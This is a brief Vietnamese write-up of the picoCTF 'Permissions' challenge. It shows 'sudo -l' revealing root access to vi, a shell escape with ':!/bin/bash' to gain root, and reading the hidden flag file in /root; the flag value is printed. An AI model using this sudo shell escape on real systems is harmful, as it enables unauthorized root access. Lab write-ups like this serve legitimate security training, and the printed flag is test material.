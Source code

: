 ***Permissions***

![alt text](image.png)

Đăng nhập sever ssh theo địa chỉ và mật khẩu đề bài đưa<br>
Kiểm tra sudo permissions xem user có quyền truy cập đến đâu bằng lệnh sau <br>
```
picoplayer@challenge:~$ whoami
picoplayer
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
Ta có quyền truy cập tới vi text editor -> có thể dùng vi như là root cho mọi file<br>
Tạo file (test) trong thư mục với vi: ```sudo vi test```
Chạy câu lệnh [này](https://gtfobins.github.io/) sau khi ở trong command mode của vi: ```:!/bin/bash```<br>

![alt text](image-1.png)

Lấy được root

![alt text](image-2.png)

cd vào /root (theo như đề, ta có thể đọc được các file trong root)<br>
ls -la, xuất hiện file ẩn .flag.txt<br>

![alt text](image-3.png)

cat file, ta được flag: ```picoCTF{uS1ng_v1m_3dit0r_f6ad392b}```<br>